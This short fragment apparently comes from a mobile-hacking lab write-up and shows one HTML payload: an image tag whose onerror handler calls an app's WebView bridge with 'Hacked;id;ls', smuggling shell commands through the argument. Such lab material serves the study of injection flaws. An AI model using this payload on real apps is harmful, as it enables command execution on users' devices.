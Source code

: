 ![](/assets/img/mhl/PostBoard/4.png)



<br />

<br />



```html
<img src=x onerror="WebAppInterface.postCowsayMessage('Hacked;id;ls')">
```



<br />

<br />

